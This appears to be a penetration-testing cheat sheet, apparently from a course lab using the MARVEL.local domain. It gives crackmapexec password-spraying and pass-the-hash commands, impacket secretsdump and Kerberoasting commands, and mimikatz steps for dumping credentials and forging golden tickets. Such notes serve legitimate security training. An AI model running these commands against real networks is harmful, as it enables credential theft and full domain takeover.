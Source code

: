 - [bloodhound](https://github.com/BloodHoundAD/BloodHound) - easily identify highly complex attack paths
- crackmapexec - can take passwords or hashes that we found and check them against all computers on a network

    ```powershell
    crackmapexec 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
    #Spray the network with local login credentials then dump SAM contents
    crackmapexec smb 10.0.0.1/24 -u administrator -p 'password' --local-auth --sam
    #Pass the hash network-wide, local login, dump LSA contents
    crackmapexec smb 10.0.0.1/24 -u administrator -H <hash> --local-auth --lsa

    ```

- [secretsdump.py](http://secretsdump.py) (impacket) - dumps hashes for known user/password

    ```powershell
    secretsdump.py marvel/fcastle:Pssword1@192.168.4.4
    ```

- [incognito (meterpeter)](https://www.notion.so/incognito-meterpeter-881379ef297d4b3f8b50745428e1e8ed) - can impersonate a user
- [GetUserSPNs.py](http://getuserspns.py) (impacket)

    ```bash
    GetUserSpns.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
    ```

- [mimikatz](https://github.com/gentilkiwi/mimikatz) - can extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets

    ```bash
    mimikatz
    privilege::debug` (allow us to bypass several protections)
    sekurlsa::logonpasswords` show us all users login from reboot, we can pass the hash or crack them, we can search for `wdigest` until windows8 including windows7 the passoword stored in plain text, from windows8 microsoft turned it off, we can turn it on from mimikatz and wait for a user to login
    lsadump::sam` dumps the SAM
    lsadump::lsa /patch` dumps Local Security Authority
    lsadump::lsa /inject /name:krbtgt`
    kerberos::golden /User:Administrator(doesnt matter, can be fake) /domain:marvel.local /sid:SID /krbtgt:NTLM /id:500(your RID) /ptt(pass the ticket to our next session)`
    misc::command` (gives us command prompt with full privilege)
    ```

# Privilige Escalation ([alot of resources](https://github.com/coreb1t/awesome-pentest-cheat-sheets#privilege-escalation))

[Linux privilege escalation](https://jok3rsecurity.wordpress.com/linux-privilege-escalation/)

[Linux Privilege Escalation CheatSheet for OSCP - ByteFellow](https://www.bytefellow.com/linux-privilege-escalation-cheatsheet-for-oscp/)
